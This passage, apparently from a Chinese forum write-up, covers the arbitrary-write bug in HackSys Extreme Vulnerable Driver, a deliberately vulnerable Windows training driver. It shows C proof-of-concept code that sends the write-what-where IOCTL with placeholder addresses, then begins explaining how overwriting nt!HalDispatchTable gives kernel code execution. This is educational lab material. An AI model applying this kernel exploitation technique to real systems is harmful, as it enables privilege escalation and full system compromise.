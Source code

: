 ```
#include #include #define IOCTL(Function) CTL_CODE(FILE_DEVICE_UNKNOWN, Function, METHOD_NEITHER, FILE_ANY_ACCESS)
#define HEVD_IOCTL_ARBITRARY_WRITE                               IOCTL(0x802)
typedef struct _WRITE_WHAT_WHERE
{
    PULONG_PTR What;
    PULONG_PTR Where;
} WRITE_WHAT_WHERE, * PWRITE_WHAT_WHERE;
 
int main()
{
    HANDLE dev = CreateFileA("\\\\.\\HackSysExtremeVulnerableDriver", GENERIC_READ | GENERIC_WRITE, NULL, NULL, OPEN_EXISTING, NULL, NULL);
    if (dev == INVALID_HANDLE_VALUE)
    {
        printf("Failed!\n");
        system("pause");
        return -1;
    }
    printf("Done! Device Handle:0x%p\n", dev);
    PWRITE_WHAT_WHERE Buffer;
    Buffer = (WRITE_WHAT_WHERE*)malloc(sizeof(WRITE_WHAT_WHERE));
    ZeroMemory(Buffer, sizeof(WRITE_WHAT_WHERE));
    Buffer->Where=(PULONG_PTR)0x41414141;
    Buffer->What = (PULONG_PTR)0x42424242;
 
    DWORD size_returned = 0;
    BOOL is_ok = DeviceIoControl(dev, HEVD_IOCTL_ARBITRARY_WRITE, Buffer, sizeof(WRITE_WHAT_WHERE), NULL, 0, &size_returned, NULL);
    CloseHandle(dev);
    system("pause");
    return 0;
} 
```

触发漏洞：

 

![](https://bbs.pediy.com/upload/attach/202107/817966_BS9ECPVKFWPVXTJ.jpg)

0x02 Exploit
------------

根据上文分析，现已可以实现任意地址写。将`nt!HalDispatchTable`中函数地址覆盖为 Shellcode 地址可以实现任意代码执行，具体见下文分析。

 

`nt!HalDispatchTable`中`HalQuerySystemInformation`与`HalSetSystemInformation`是在内核初始化过程中确定的：

 

![](https://bbs.pediy.com/upload/attach/202107/817966_BC8BKYPPPCNTWAJ.jpg)

 